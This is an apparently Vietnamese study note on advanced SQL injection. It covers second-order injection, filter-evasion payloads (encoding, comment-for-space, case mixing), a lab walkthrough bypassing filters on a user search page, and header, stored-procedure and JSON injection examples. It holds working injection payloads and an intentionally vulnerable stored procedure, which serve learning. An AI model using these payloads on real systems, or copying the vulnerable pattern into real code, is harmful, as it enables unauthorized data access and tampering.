








# **Advanced SQL Injection**
## **1. Quick recap**
**In-band SQL Injection**:
- Error-Based SQL Injection: `SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))`
- Union-Based SQL Injection: `SELECT name, email FROM users WHERE id = 1 UNION ALL SELECT username, password FROM admin`

**Inferential (Blind) SQL Injection**: 
- **Boolean-Based Blind SQL Injection**: `SELECT * FROM users WHERE id = 1 AND 1=1 (true condition) versus SELECT * FROM users WHERE id = 1 AND 1=2 (false condition)`
- **Time-Based Blind SQL Injection**: `SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--`

**Out-of-band SQL Injection**

## **2. Second-order SQL Injection**
**Second-order SQL Injection** là kiểu SQL xảy ra khi input của người dùng được đưa vào lưu trữ trong DB, sau đó lại được một chức năng khác lấy input đó ra và thực thi; nói đơn giản là câu lệnh SQL không được thực thi ngay lập tức mà có một chức năng khác (second) lấy nó ra và thực hiện



---
Cho một ví dụ web cho phép cập nhật tên sách với logic code như sau:
`UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '$ssn'; INSERT INTO logs (page) VALUES ('update.php');`

Ta nhận thấy rằng query này truyền thẳng input người dùng truyền vào rồi ghép trực tiếp vào query, nếu với input bình thường nó sẽ có dạng
`UPDATE books SET book_name = 'test_book', author = 'test_author' WHERE ssn = '123'; INSERT INTO logs (page) VALUES ('update.php');`

Nhưng khi attacker truyền vào input ở phần author là `hacker' WHERE ssn = '123';UPDATE books SET book_name='compromis';-- `, thì nó sẽ trở thành\
**UPDATE books SET book_name = 'test_book', author = '`hacker' WHERE ssn = '123';UPDATE books SET book_name='compromis';-- `' WHERE ssn = '$ssn'; INSERT INTO logs (page) VALUES ('update.php');**

Khi này attacker đã thực hiện chèn thêm một câu lệnh `UPDATE` vào sau truy vấn, và dùng comment `--` để bỏ đi phần `UPDATE` logs



Lúc này ta thấy được tất cả tên sách đã chuyển hết thành commpromise\
Tại sao mình lại không dùng tham số `ssn` cho nhanh mà lại phải dùng `author`?\
Bởi vì dùng tham số ssn mình không thấy payload hoạt động, vẫn giữ nguyên mà không cập nhật, mình thấy tham số `author` và `bookname` cũng có chức năng tương tự nên mình thực hiện điền payload vào 2 ô này

## **3. Filter Evasion Techniques**
### **Character Encoding**
- URL Encoding: chuyển đổi những kí tự thành dạng URL; VD: `' OR 1=1--` thành `%27%20OR%201%3D1--`
- Hexadecimal Encoding: chuyển đổi thành kí tự hex; VDL `SELECT * FROM users WHERE name = 'admin'` thành 
- Unicode Encoding: `admin` thành `\u0061\u0064\u006d\u0069\u006e` 

### **No-Quote SQL Injection**
Sử dụng khi web thực hiện filter đi 1 hoặc 2 dấu ngoặc
- Using Numerical Values: thay vì sử dụng `' OR '1'='1` thì ta sử dụng `OR 1=1`
- Using SQL Comments: sử dụng dấu comment `--`
- Using CONCAT() Function: sử dụng hàm `CONCAT()` để tạo nên chuỗi `CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)` tạo thành `admin`

### **No Spaces Allowed**
Khi web không cho phép điền dấu cách
- Comments to Replace Spaces: sử dụng `/**/` để thay thế dấu cách: `SELECT * FROM users WHERE name = 'admin'` thành `SELECT/**/*/**/FROM/**/users/**/WHERE/**/name/**/='admin'`
- Tab or Newline Characters: dùng `/t` hoặc `/n` để thực hiện bypass 
- Alternate Characters: `%09` = `\t`, `%0A` = `\n`, `%0C` = `\f`, `%0D` = `\r`, `%A0` = `space`

### **Các trường hợp bị filter và hướng bypass**
- Keywords like `SELECT` are banned: những từ khóa quan trọng bị filterm, ta biến đổi đan xen để chữ có thể khác trong mẫu bypass: `SElEcT * FrOm users or SE/**/LECT * FROM/**/users `
- Spaces are banned: space bị filter, dùng kí tự comment hoặc các kí tự khác thay thế `SELECT%0A*%0AFROM%0Ausers or SELECT/**/*/**/FROM/**/users`
- Logical operators like `AND`, `OR` are banned: các toán tử như `AND`, `OR` bị filter, sử dụng bằng toán tử kí tự tương tự: username = `'admin' && password = 'password' or username = 'admin'/**/||/**/1=1 -- `
- Common keywords like `UNION`, `SELECT` are banned: `SElEcT * FROM users WHERE username = CHAR(0x61,0x64,0x6D,0x69,0x6E)`
- Specific keywords like `OR`, `AND`, `SELECT`, `UNION` are banned: `SElECT * FROM users WHERE username = CONCAT('a','d','m','i','n') or SElEcT/**/username/**/FROM/**/users`

---
### **Practice**
Web có một trang cho phép tìm kiếm thông tin người dùng `http://IP/space/search_users.php?username=?`



Ta thực hiện thêm dấ `'` để xác nhận



Kết quả là web đã trả về lỗi phía server; tiếp đó ta thực hiện thêm dấu `--` để truy vấn trả về bình thường


Nhưng kết quả vẫn lỗi do MariaDB cần một khoảng cách đằng sau comment để có tác đụng\


Nhưng kết quả là dấu cách đã bị filter, ta thử kí tự `%09` để bypass

Tiếp tục ta thực hiện lấy thông tin từ DB, kết hợp UNION và SELECT để có thể lấy



Khi đó toán tử `UNION` và `SELECT` đã bị filter, ta dùng `uNION` và `sELECT` 



Kết quả là đã bypass, ta thực hiện tìm số cột được trả về 



Kết quả là 4 cột

## **OOB**

## **5. Other technicals**
### **HTTP Header injection**
Một số web cho phép log lại những header thông tin của người dùng như `User-Agent`, `Referer`, `X-Forwarded-For`, sau đó có chức năng hiển thị ra, attacker có thể chèn `User-Agent: ' OR 1=1; --` từ đó khiến web hiện thị thêm cả những thông tin khác

### **Exploiting Stored Procedures**
Web thực hiện lưu những thói quen của người dùng để tăng hiệu quả và trải nghiệm người dùng, nhưng khi nó không được sử lý chính xác thì có thể mở ra một lỗ hổng

```sql
CREATE PROCEDURE sp_getUserData
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```

### **XML and JSON Injection**
Web sử dụng dữ liệu dạng XML hoặc JSON, parse và thực hiện ghép vào cấu truy vấn SQL  

```json
 {
  "username": "admin' OR '1'='1--",
  "password": "password"
}
```

## **6. Automation**
Một số tools hỗ trợ tự động tìm SQLi:
- [**SQLMap**](https://github.com/sqlmapproject/sqlmap): hỗ trợ nhiều loại DB
- [**SQLNinja**](https://github.com/xxgrunge/sqlninja): Microsoft SQL Server
- [**JSQL Injection**](https://github.com/ron190/jsql-injection): Java
- [**BBQSQL**](https://github.com/CiscoCXSecurity/bbqsql): Blind SQL 